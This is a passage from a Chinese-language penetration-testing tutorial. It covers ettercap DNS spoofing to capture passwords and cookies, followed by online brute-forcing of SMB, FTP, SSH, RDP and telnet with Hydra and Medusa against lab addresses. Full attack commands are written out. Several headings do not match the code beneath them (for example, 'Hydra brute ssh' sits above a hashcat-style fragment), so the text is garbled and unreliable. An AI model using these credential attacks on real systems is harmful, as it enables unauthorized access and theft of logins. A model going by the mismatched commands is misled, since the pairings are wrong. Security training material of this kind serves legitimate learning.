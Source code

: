 ④dns 欺骗  
这里也可以看到记录的密码

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEDvoQgQ2uNuERA2xg0lEUjp0XDOkTlW6YH1ZRsTRTXFyrBeotBmQzgA/640?wx_fmt=png)

⑤dns 欺骗成功

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3fyWl8XX2LnvCLoz6MgS2Cedym5e3TkicGwHljQYt0vL7mgkibMia9lyw/640?wx_fmt=png)

**ettercap 命令行**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ftp://192.168.198.133:21
```

抓取密码成功，这里还能抓到 cookie，如果没法抓到密码可以抓 cookie 登录  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGERrYia5iaz4eTE2NAQ6prj5jk1ceLG4051UfrbcnHfoHJFnL6sjv2tcGg/640?wx_fmt=png)

**四、服务密码攻击**  
**1\. 在线爆破  
**在线爆破受网络因素、字典、电脑性能影响较大。扫描端口分析服务进行爆破攻击：smb、telnet、ftp、rdp、mysql、mssql、ssh  
**Hydra 爆破 telnet**  

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 smb://192.168.198.133:445
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOHNSHX8qLue8zt4r9L0mDEn01bJMuAtrkzz7q8fKNrD6G02ka8Klcw/640?wx_fmt=png)  

**Hydra 爆破 ftp**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ssh://192.168.198.131:22
```

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 rdp://192.168.198.133:3389
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE4JDFDENZDNWhcUA0dJeYe4Pc27DvaxiacNYpM0oHEZEp0yOnGYvuXXg/640?wx_fmt=png)

**Hydra 爆破 smb**

```
medusa -h 192.168.1.8 -U /root/dict/usename.txt -P /root/dict/password.txt -M telnet
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3aZH1ROprPiakK4K6BgLMetas9vR12ibY4e3ochLQK8ARAaJLqa8D1Zg/640?wx_fmt=png)

**Hydra 爆破 ssh**

```
\-m #指定加密类型，跟上对应的id号。id号对应编码方式如下图
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGErTPABTxE8nXPlwAvOiaSPsA1trCtD4baexH1VWWU1sIGwLZf1n6bibgg/640?wx_fmt=png)  

**Hydra 爆破 rdp**。存在误报情况，未知原因：
